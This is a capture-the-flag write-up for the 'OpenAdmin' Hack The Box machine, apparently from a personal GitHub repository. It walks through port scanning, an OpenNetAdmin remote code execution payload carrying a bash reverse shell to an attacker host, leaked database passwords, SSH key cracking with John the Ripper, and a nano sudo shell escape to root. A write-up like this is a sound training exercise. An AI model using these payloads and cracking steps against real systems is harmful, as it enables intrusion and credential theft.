








# OpenAdmin - Linux (Easy)

## Summary

This was a relatively straightforward box to compromise with an interesting privilege escalation vector. I was able to get an initial low-level shell and exploit reused database credentials to progress further. Nano is able to be run as sudo and I am able to exploit this to get a root shell. 

## Enumeration

Having added the `$machine_IP` to the `/etc/hosts` file, I used Rustscan to pick up open ports which were then fed to `Nmap` for a more thorough scan

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -v

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP1:22
Open $machine_IP:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
```

This resulted in two ports - 22 (SSH) and 80 (HTTP). I initially targeted Port 80 as SSH isn't usually a priority (I usually try password guessing - admin, root, box name and default passwords and they didn't work this time around).

## Port 80 (HTTP)

Navigating to the landing page on port 80 reveals a base Apache landing page and checking the page source didn't reveal anything interesting.



I then ran Gobuster on the target. The `artwork` directory was a standard blog with `/music` also being a lorem ipsum text webpage with not much in the way of interesting findings. I am unable to create an account but the `login` form leads me to an `/ona` directory that wasn't previously there in my Gobuster results. This logs me in as a guest and provides a version number. 



I then looked for entries in Searchsploit and the [RCE](https://www.exploit-db.com/exploits/47691) for 18.1.1 seems to work great. I slightly tweaked the exploit to include a bash reverse shell that I can pick up with netcat

```
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/$host/9999 0>%261'&xajaxargs[]=ping"  http://$machine_IP/ona/
```

This gives me an initial shell as the `www-data` user. I am lacking sufficient privileges to get a user flag but opening the `/etc/passwd` files tells me that there are 2 other users - Joanna and Jimmy. I can also run `Linpeas.sh` to enumerate the machine. This check indicates that this machine is vulnerable to CVE-2021-4034 (`Polkit`) which I plan on checking for if nothing else pans out. Running Linpeas is very helpful for a multitude of reasons - it tells me that there is another hostname present which provides me with valuable foreshadowing that I might have to do SSH Tunnelling

```
openadmin                                                                                                                 
127.0.0.1 localhost
127.0.1.1 openadmin
```



It provides some insight into how the potential tunnelling would occur. It also indicates that only Joanna is in the sudoers group and I am able to run `sudo -l`

```
Sudoers file: /etc/sudoers.d/joanna is readable                                                                           
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

This indicates that I might have to pivot - `www-data` to `Jimmy` to `Joanna` to `root`. One of the files identified in the Linpeas output leaked database credentials 

```
www-data@openadmin:/tmp$ cat /opt/ona/www/local/config/database_settings.inc.php
</opt/ona/www/local/config/database_settings.inc.php                        
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

I was able to use this password to login as Jimmy but as expected, I am unable to access Joanna's directory to view the `user.txt` flag. However, I was able to view the files in `/internal`, namely `main.php` which indicates that that site holds the SSH private key for the Joanna user. 

```<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa'); --> outputs the RSA key to authenticate via SSH
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

The `index.php` file present includes a username and hash for the `jimmy` user which was then cracked with Crackstation

```
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '$hash') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
```



Following this, I was able to port forward with SSH 

```
ssh jimmy@$machine_IP -L 52846:localhost:52846
```

Then I was able to login to `http://$machine_IP:52846` and sign in with the `Jimmy` user's credentials to pull the `id_rsa` file



Since this file was password protected, I had to run `ssh2john` through John the Ripper to crack this hash.

```
ssh2john id_rsa > id_rsa.john

john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
$id_rsa-pass      (id_rsa)
```



I was able to use this `id_rsa` key and SSH into the host as `Joanna` and identify a path to escalate privileges to get a root shell

## Privilege Escalation

I was able to run sudo `/bin/nano /opt/priv` to open it in `nano` and then enter `reset; sh 1>&0 2>&0` to enter an escalated terminal session



## Cert


